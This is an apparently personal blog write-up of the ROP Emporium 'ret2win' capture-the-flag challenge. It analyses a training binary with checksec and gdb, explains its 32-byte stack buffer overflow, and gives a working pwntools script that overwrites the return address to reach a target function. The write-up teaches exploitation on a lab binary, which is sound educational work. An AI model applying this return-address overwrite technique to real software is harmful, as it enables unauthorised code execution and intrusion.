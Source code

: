```yaml
---
title: "RopEmporium - Ret2win"
date: 2022-10-16T11:18:40+03:00
draft: false
image: ret2win.jpg
tags:
  - ropemporium
---
```


> Locate a method that you want to call within the binary. Call it by overwriting a saved return address on the stack.This challenge is classical pwn challenge of overwriting the return address with desired address you want to return to.

The binaries for the challenges can be downloaded from the author`s website [ropemporium](https://ropemporium.com).The goal of first challenge is to call the **ret2win** function.

After downloading the binary, the first is to check binary protection enabled on the binary using `checksec` utility.

```bash
vx@archie:ret2win$ checksec --file ret2win
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

Only **NX** (Not executable) is enabled on the binary meaning we cannot execute code stored on the stack like `shellcode`. Toe analyze the behavior of the program we will use `gdb`. gdb is a tool that enables one to inspect the behavior of binaries at runtime.

```nasm
(gdb) info functions
All defined functions:

Non-debugging symbols:
0x0000000000400528  _init
0x0000000000400550  puts@plt
0x0000000000400560  system@plt
0x0000000000400570  printf@plt
0x0000000000400580  memset@plt
0x0000000000400590  read@plt
0x00000000004005a0  setvbuf@plt
0x00000000004005b0  _start
0x00000000004005e0  _dl_relocate_static_pie
0x00000000004005f0  deregister_tm_clones
0x0000000000400620  register_tm_clones
0x0000000000400660  __do_global_dtors_aux
0x0000000000400690  frame_dummy
0x0000000000400697  main
0x00000000004006e8  pwnme
0x0000000000400756  ret2win
0x0000000000400780  __libc_csu_init
0x00000000004007f0  __libc_csu_fini
0x00000000004007f4  _fini
(gdb)
```

The binary has various functions has as shown in the output above.For initial analysis we start at the `main` function which is the entrypoint of our program.

```nasm
(No debugging symbols found in ret2win)
(gdb) disas main
Dump of assembler code for function main:
   0x0000000000400697 <+0>:	push   rbp
   0x0000000000400698 <+1>:	mov    rbp,rsp
   0x000000000040069b <+4>:	mov    rax,QWORD PTR [rip+0x2009b6]        # 0x601058 <stdout@@GLIBC_2.2.5>
   0x00000000004006a2 <+11>:	mov    ecx,0x0
   0x00000000004006a7 <+16>:	mov    edx,0x2
   0x00000000004006ac <+21>:	mov    esi,0x0
   0x00000000004006b1 <+26>:	mov    rdi,rax
   0x00000000004006b4 <+29>:	call   0x4005a0 <setvbuf@plt>
   0x00000000004006b9 <+34>:	mov    edi,0x400808
   0x00000000004006be <+39>:	call   0x400550 <puts@plt>
   0x00000000004006c3 <+44>:	mov    edi,0x400820
   0x00000000004006c8 <+49>:	call   0x400550 <puts@plt>
   0x00000000004006cd <+54>:	mov    eax,0x0
   0x00000000004006d2 <+59>:	call   0x4006e8 <pwnme>
   0x00000000004006d7 <+64>:	mov    edi,0x400828
   0x00000000004006dc <+69>:	call   0x400550 <puts@plt>
   0x00000000004006e1 <+74>:	mov    eax,0x0
   0x00000000004006e6 <+79>:	pop    rbp
   0x00000000004006e7 <+80>:	ret
End of assembler dump.
(gdb)
```

From the initial analysis of the main function,main call an interesting function called **pwnme**. Next is to disassemble **pwnme** function to understand the behavior.

```nasm
(gdb) disas pwnme
Dump of assembler code for function pwnme:
   0x00000000004006e8 <+0>:	push   rbp
   0x00000000004006e9 <+1>:	mov    rbp,rsp
   0x00000000004006ec <+4>:	sub    rsp,0x20
   0x00000000004006f0 <+8>:	lea    rax,[rbp-0x20]
   0x00000000004006f4 <+12>:	mov    edx,0x20
   0x00000000004006f9 <+17>:	mov    esi,0x0
   0x00000000004006fe <+22>:	mov    rdi,rax
   0x0000000000400701 <+25>:	call   0x400580 <memset@plt>
   0x0000000000400706 <+30>:	mov    edi,0x400838
   0x000000000040070b <+35>:	call   0x400550 <puts@plt>
   0x0000000000400710 <+40>:	mov    edi,0x400898
   0x0000000000400715 <+45>:	call   0x400550 <puts@plt>
   0x000000000040071a <+50>:	mov    edi,0x4008b8
   0x000000000040071f <+55>:	call   0x400550 <puts@plt>
   0x0000000000400724 <+60>:	mov    edi,0x400918
   0x0000000000400729 <+65>:	mov    eax,0x0
   0x000000000040072e <+70>:	call   0x400570 <printf@plt>
   0x0000000000400733 <+75>:	lea    rax,[rbp-0x20]
   0x0000000000400737 <+79>:	mov    edx,0x38
   0x000000000040073c <+84>:	mov    rsi,rax
   0x000000000040073f <+87>:	mov    edi,0x0
   0x0000000000400744 <+92>:	call   0x400590 <read@plt>
   0x0000000000400749 <+97>:	mov    edi,0x40091b
   0x000000000040074e <+102>:	call   0x400550 <puts@plt>
   0x0000000000400753 <+107>:	nop
   0x0000000000400754 <+108>:	leave
   0x0000000000400755 <+109>:	ret
End of assembler dump.
```

From analysis of the above assembly code, we fill a buffer of size 0x20(32bytes) with a constant byte of zero. **memset** is used to overwrite any values present memory area specified. The memory we are overwriting is [rbp-0x20]. This means we are allocating a memory buffer of size 32 bytes from the address of base pointer as shown in the stack diagram below.

![stack layout](stack.png)

Next function is **read** function, which reads from the standard input file descriptor and stores in the specified buffer.From the disassembled code we are reading 0x38 bytes from the user input and storing it in our buffer.

```c
read(0, *[rbp-0x20], 0x38) //0 is file descriptor stdin
```

Because we are reading more than what the buffer can hold, we corrupt the adjacent memory regions therefore causing a stack buffer overflow. Therefore in order to control the return address as shown in the stack image above is to fill the buffer, overwrite the `rbp` register and control the return address with **ret2win** function address.

The exploit code for this ret2win function is,

```python
import pwn

pwn.context.encoding = "latin-1"
pwn.warnings.simplefilter("ignore")
pwn.context.arch = "amd64"

io = pwn.process('./ret2win')

payload = b"A" * 32 # fill the buffer
payload += b"B" * 8  #overwrite saved base pointer
payload += pwn.p64(0x400756)  #Address of ret2win function
io.writeafter('>', payload)

pwn.info(io.clean().decode())
```

Running the above script we get correct flag.

```bash
vx@archie:ret2win$ python3 x.py
[+] Starting local process './ret2win': pid 45427
[*]  Thank you!
    Well done! Here's your flag:
    ROPE{a_placeholder_32byte_flag!}
[*] Process './ret2win' stopped with exit code 0 (pid 45427)
```
